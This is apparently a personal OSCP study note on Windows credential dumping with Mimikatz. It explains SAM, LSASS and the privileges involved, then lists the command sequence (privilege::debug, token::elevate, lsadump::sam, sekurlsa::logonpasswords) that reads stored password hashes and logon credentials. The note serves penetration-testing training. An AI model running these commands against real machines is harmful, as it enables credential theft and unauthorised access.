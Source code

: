 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/5-mimikatz/"}
---
```


### Understanding NTLM and Mimikatz:
- Windows stores hashed passwords in the Security Account Manager (SAM)
- Rainbow Table Attack = precomputed hashes compared to hash (does not work with salting)
- Mimikatz
	- Because of the kernel having an exclusive lock on "C:\\Windows\\system32\\config\sam" it cannot be copied or moved. Mimikatz will bypass this.
	- Using the "sekurlsa" module it can also extract hashes from process memory at Local Security Authority Subsystem (LSASS).
		- LSASS is a process in Windows which handles and caches user authentication, password changes, and access token creation.
		- It is run by the SYSTEM account, which is even more privileged than Administrator.
	- Mimikatz need to be run as at least Administrator and have "SeDebugPrivilege" access enabled. It lets us debug or own and other users' processes.
	- Elevation to SYSTEM can happen through PsExec, or Mimikatz's token elevation function (which requires "SeImpersonatePrivilege", and that is on by default for admins).

--------------

### Mimikatz Usage:
1. Enumerate local users:
```
Get-LocalUser
```
2. Start Mimikatz as at least Administrator:
```
.\mimikatz.exe
```
4. Aktivera SeDebugPrivilege:
```
privilege::debug
```
5. Elevera till SYSTEM:
```
token::elevate
```
6. Kör arbiträrt kommando. Exempel:
```
lsadump::sam #Dumpar NTLM hashar från SAM.
sekurlsa::logonpasswords #Dumpar alla logon credentials som kan hittas (lsass).
```
7. Win!

- Alla Mimikatz-commands: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#commands-list
